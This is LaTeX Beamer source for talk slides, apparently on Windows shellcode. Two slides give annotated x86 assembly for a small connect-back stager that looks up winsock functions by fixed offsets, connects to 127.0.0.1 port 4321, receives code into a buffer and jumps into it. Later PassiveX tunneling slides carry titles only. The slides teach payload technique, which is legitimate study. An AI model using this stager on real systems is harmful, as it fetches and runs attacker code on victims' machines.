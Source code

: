\documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Resolve symbols using static ordinals}

\footnotesize{
    \begin{verbatim}
8B6A08     mov ebp,[edx+0x8]     ; ebp = LdrModule->BaseAddr
8B453C     mov eax,[ebp+0x3c]    ; eax = DosHdr->e_lfanew
8B4C0578   mov ecx,[ebp+eax+0x78]; ecx = Export Directory
8B4C0D1C   mov ecx,[ebp+ecx+0x1c]; ecx = Address Table Rva
01E9       add ecx,ebp           ; ecx += ws2base
8B4158     mov eax,[ecx+0x58]    ; eax = socket rva
01E8       add eax,ebp           ; eax += ws2base
8B713C     mov esi,[ecx+0x3c]    ; eax = recv rva
01EE       add esi,ebp           ; eax += ws2base
03690C     add ebp,[ecx+0xc]     ; ebp += connect rva
    \end{verbatim}
}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Create the socket, connect back, recv, and jump}

\footnotesize{
    \begin{verbatim}
; Use chained call-stacks to save space
; connect returns to recv returns to buffer (fd in edi)
53         push ebx              ; push 0
6A01       push byte +0x1        ; push SOCK_STREAM
6A02       push byte +0x2        ; push AF_INET
FFD0       call eax              ; call socket
97         xchg eax,edi          ; edi = fd
687F000001 push dword 0x100007f  ; push sockaddr_in
68020010E1 push dword 0xe1100002
89E1       mov ecx,esp           ; ecx = &sockaddr_in
53         push ebx              ; push flags (0)
B70C       mov bh,0xc            ; ebx = 0x0c00
53         push ebx              ; push length (0xc00)
51         push ecx              ; push buffer
57         push edi              ; push fd
51         push ecx              ; push buffer
6A10       push byte +0x10       ; push addrlen (16)
51         push ecx              ; push &sockaddr_in
57         push edi              ; push fd
56         push esi              ; push recv
FFE5       jmp ebp               ; call connect
\end{verbatim}
}
\end{frame}

\section{PassiveX}
\begin{frame}[t]
    \frametitle{Overview}
\end{frame}
\begin{frame}[t]
    \frametitle{Implementation}
\end{frame}
\begin{frame}[t]
    \frametitle{Practical use: HTTP tunneling}
\end{frame}
\begin{frame}[t]
    \frametitle{Pros \& cons}
\end{frame}
\end{document}
